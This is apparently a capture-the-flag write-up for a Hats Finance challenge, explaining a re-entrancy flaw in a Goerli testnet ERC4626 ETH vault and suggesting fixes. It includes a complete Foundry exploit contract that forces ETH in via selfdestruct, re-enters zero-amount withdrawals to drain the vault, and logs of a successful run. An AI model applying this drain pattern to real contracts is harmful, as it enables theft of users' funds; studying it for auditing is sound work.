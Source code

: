 ## Tool Used:
Foundry

## Github link:
* Private Repo: https://github.com/pratraut/hats_ctf_challenge2
* GitFront link to share above repo: https://gitfront.io/r/savi0ur/FXrAoJA8szhF/hats-ctf-challenge2-gitfront/

## Contract: 
https://goerli.etherscan.io/address/0x8043e6836416d13095567ac645be7C629715885c#code

## Solution:

* Contract's `ERC4626ETH.sol` function - `withdraw` OR `redeem` is vulnerable to re-entrancy.
* Both function `withdraw` AND `redeem`, uses `_withdraw` as common function for performing withrawal/redeem operation.
* Inside `_withdraw` function, Its calculating excess ETH by (total_ETH_balance - total_supply_of_VCT_Token) and this excess ETH will be transfer to actual owner of the vault.
* Vulnerable code from `_withdraw` function:
```solidity
uint256 excessETH = totalAssets() - totalSupply();

_burn(_owner, amount);

Address.sendValue(receiver, amount);
if (excessETH > 0) {
    Address.sendValue(payable(owner()), excessETH);
}
```
As we can see, there are two ETH transfers - one with `amount` and other with `excessETH`. If we can somehow put `excessETH` transfer in call stack while doing reentrancy from the external call we got from first ETH transfer i.e., `amount` transfer, we can drain the vault. To get same `excessETH` value for each reentrancy call, we need `amount` to be equal to zero. So that first ETH transfer wont affect the `excessETH` value for each reentrancy call.
* To get an extra ETH in the contract, there are two ways. One way is using `deposit` OR `mint` function, which will mint `VCT` Token and also increasing ETH balance of a vault. Other way is by forcefully transferring ETH to a vault by self-destroying some dummy contract which is having some ETH. This will increase ETH balance in a vault but not VCT Token supply.
* To get some excess ETH to transfer back to owner of the vault, we need to use 2nd way i.e, forcefully transfering ETH by self-destroying contract.
* We can transfer 1 ETH forcefully. So now we have 2 ETH in a vault and 1 VCT Token(owned by original owner of vault).
* To make balance of vault to 0 ETH, so that we can capture the flag, we need to understand below snippet from `_withdraw` function.
```solidity
function _withdraw(
    address caller,
    address payable receiver,
    address _owner,
    uint256 amount
) internal virtual {
    if (caller != _owner) {
        _spendAllowance(_owner, caller, amount);
    }

    uint256 excessETH = totalAssets() - totalSupply();

    _burn(_owner, amount);

    Address.sendValue(receiver, amount);
    if (excessETH > 0) {
        Address.sendValue(payable(owner()), excessETH);
    }

    emit Withdraw(caller, receiver, _owner, amount, amount);
}
```
1. First check - `if (caller != _owner)`, since there is no way to get an approval from actual owner, we need to bypass this check by having `caller == _owner. Both vaules are attacker controlled.
2. `uint256 excessETH = totalAssets() - totalSupply();`- Since we have 2 ETH in vault and 1 VCT Token, we get `excessETH = 2 - 1 = 1`. So we get extra ETH to send it back to vault owner.
3. `_burn(_owner, amount);` - In order to bypass burn function, we need to pass `amount = 0` and `_owner = contract_address_of_attacker`. Hence `caller` should also be an address of the attacker's contract. This `_burn` function will not block us when `amount = 0`.
4. `Address.sendValue(receiver, amount);` - Since `amount` is zero, it will send 0 ETH to reciever, As `Address.sendValue()` function is performing `call` on provided address, we get an external call to receiver, which we can make use to re-enter the vault. So this `receiver` address must be attacker controlled contract address, which will let us use `fallback` function when transfering ETH using `call` function.
5. When `excessETH > 0`, it will transfer excessETH to vault owner, which is decrementing balance of vault in ETH.
```
if (excessETH > 0) {
    Address.sendValue(payable(owner()), excessETH);
}
```
6. After step 4, we will accept the 0 ETH transfer from vault in `fallback` function of attackers contract. Which will keep count on the number of times we need to call `withdraw` function to transfer all 2 ETH from contract. In this case it need to call one more time. Since during first `_withdraw` call, transfer of 1st ETH is stored inside call stack. In second call of `withdraw` from fallback function, it will store 2nd ETH transfer inside call stack. After this, no need to re-enter `withdraw` function. Once it will execute, all two transfer from call stack, all 2 ETH are sent to vault owner.
7. Once balance of vault is zero, we can call `captureTheFlag` function with attacker address.

**Note:** Here we have used 1 ETH for forcefull transfer to get `excessETH` of 1 ETH. But we can also use lower ETH (< 1 ETH), say `0.1 ETH`, so we get `0.1 ETH` as `excessETH`. Now we have to re-enter, `1 ETH / 0.1 ETH = 10` times.

## Prevention:
This vulnerability can be prevented by two ways:
* Using `ReentrancyGuard` for vulnerable function `withdraw` OR `redeem`.
* Having check for `assets` OR `shares` parameter of `withdraw` and `redeem` function respectively to be greater than zero.


## Exploit contract:
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";

interface IVault {
    function withdraw(
        uint256 assets,
        address receiver,
        address owner
    ) external returns (uint256);
    function captureTheFlag(address newFlagHolder) external;
    function flagHolder() external returns (address);
}

contract SelfDestructable {
    constructor() public payable {}
    function destruct(address to) public {
        selfdestruct(payable(to));
    }
}

contract Attacker {
    IVault vault;
    uint cnt = 0;   // Counter to keep track of number of calls for reentrancy

    constructor(address victim) public payable {
        vault = IVault(victim);
    }

    // Fallback function to receive external call from vault contract
    fallback() external payable {
        if (msg.value == 0) {
            cnt += 1;
        }
        if (cnt <= 1) {
            vault.withdraw(0 ether, address(this), address(this));
        }
    }

    function attack(address flagHolder) public {
        // Forcefully transfer 1 ETH to vault by selfdestructing
        SelfDestructable d = new SelfDestructable{value: 1 ether}();
        d.destruct(address(vault));

        // Calling withdraw on vault with assets = 0 and receiver = attackers contract address
        vault.withdraw(0 ether, address(this), address(this));
        require(address(vault).balance == 0, "vault balance is not zero");
        // Capture the flag, at this moment vault balance is zero        
        vault.captureTheFlag(flagHolder);
        console.log("Flag Holder =", vault.flagHolder());
    }
}
contract CTFTest is Test {
    function setUp() public {       
    }

    function testExploit() public {
        // Vault Address
        address victim = 0x8043e6836416d13095567ac645be7C629715885c;
        // Loading vault with 1 ETH
        vm.deal(victim, 1 ether);
        // Attackers EOA Address
        address attacker_eoa = 0xF5BED21BD285CBe352737F686766cCC19BeE7acC;
        // Loading attackers EOA with 1 ETH
        vm.deal(attacker_eoa, 1 ether);
        // All calls will go from attackers EOA
        vm.startPrank(attacker_eoa);
        console.log("Balance before victim:      ", victim.balance);
        console.log("Balance before attacker EOA:", attacker_eoa.balance);
        // Deploying attacker's contract
        Attacker attacker = new Attacker{value: 1 ether}(victim);
        console.log("Balance before attacker:    ", address(attacker).balance);
        
        // Starting the attack
        attacker.attack(attacker_eoa);

        console.log("Balance after victim:      ", victim.balance);
        console.log("Balance after attacker EOA:", attacker_eoa.balance);
        console.log("Balance after attacker:    ", address(attacker).balance);

        // Check to see if attack is successfull
        assertEq(victim.balance, 0);
    }
}
```
### Command to run - fork environment: 
`forge test -c ./test/CTF.t.sol --fork-url https://ethereum-goerli-rpc.allthatnode.com -vvvv`
```console
Running 1 test for test/CTF.t.sol:CTFTest
[PASS] testExploit() (gas: 501031)
Logs:
  Balance before victim:       1000000000000000000
  Balance before attacker EOA: 1000000000000000000
  Balance before attacker:     1000000000000000000
  Flag Holder = 0xF5BED21BD285CBe352737F686766cCC19BeE7acC
  Balance after victim:       0
  Balance after attacker EOA: 0
  Balance after attacker:     0
```
